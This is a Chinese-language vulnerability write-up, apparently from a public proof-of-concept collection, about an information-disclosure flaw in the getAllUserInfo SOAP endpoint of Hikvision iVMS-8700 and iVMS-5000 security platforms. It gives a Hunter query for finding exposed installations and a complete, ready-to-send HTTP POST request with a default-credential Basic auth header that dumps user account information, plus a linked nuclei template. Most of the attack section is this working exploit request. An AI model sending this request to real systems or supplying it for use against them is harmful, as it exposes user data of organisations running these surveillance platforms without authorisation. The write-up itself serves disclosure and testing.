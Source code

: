 # 海康威视iVMS-8700综合安防管理平台 getAllUserInfo存在信息泄露漏洞

# 一、漏洞简介
  海康威视iVMS集中监控应用管理平台，是以安全防范业务应用为导向，以视频图像应用为基础手段，综合视频监控、联网报警、智能分析、运维管理等多种安全防范应用系统，构建的多业务应用综合管理平台。海康威视iVMS-8700综合安防管理平台 getAllUserInfo存在信息泄露漏洞

# 二、影响版本
+ 海康威视综合安防系统iVMS-5000
+ 海康威视综合安防系统 iVMS-8700

# 三、资产测绘
+ hunter：`web.body="/views/home/file/installPackage.rar"`

![1691851218187-fa3d0a98-32b2-48ea-a294-7c7f565c20f0.png](./img/KoSL1wq2hJloS7zP/1691851218187-fa3d0a98-32b2-48ea-a294-7c7f565c20f0-838045.png)

+ 登录页面：

![1691851119101-58fb28dd-18f8-4fca-b027-9931d8ce0111.png](./img/KoSL1wq2hJloS7zP/1691851119101-58fb28dd-18f8-4fca-b027-9931d8ce0111-173197.png)

# 四、漏洞复现
```plain
POST /services/IWsBaseService.IWsBaseServiceHttpSoap11Endpoint HTTP/1.1
Host: {hostname}
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Content-Length: 569
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Authorization: Basic YWRtaW46MTIzNDU2
Connection: close
Connection: close

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:impl="http://impl.ws.api.base.cms.hikvision.com" xmlns:xsd="http://ws.common.cms.hikvision.com/xsd">
<soapenv:Header/>
<soapenv:Body>
    <impl:getAllUserInfo>
        <impl:request>
            <!--type: int-->
            <xsd:pageNo>1</xsd:pageNo>
            <!--type: int-->
            <xsd:pageSize>1</xsd:pageSize>
        </impl:request>
        <!--type: long-->
        <impl:updTime></impl:updTime>
    </impl:getAllUserInfo>
</soapenv:Body>
</soapenv:Envelope>
```

![1702650308771-920c2278-18dd-4f17-bc87-8b5a182f4e16.png](./img/KoSL1wq2hJloS7zP/1702650308771-920c2278-18dd-4f17-bc87-8b5a182f4e16-663215.png)

nuclei脚本：

[海康威视-ivms-8700-信息泄露.yaml](https://www.yuque.com/attachments/yuque/0/2024/yaml/1622799/1709222237212-7f41ac18-a5a1-46d6-aa2e-960b2d07f2fd.yaml)



> 更新: 2024-02-29 23:57:17  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/vlzpa0f6workvx4g>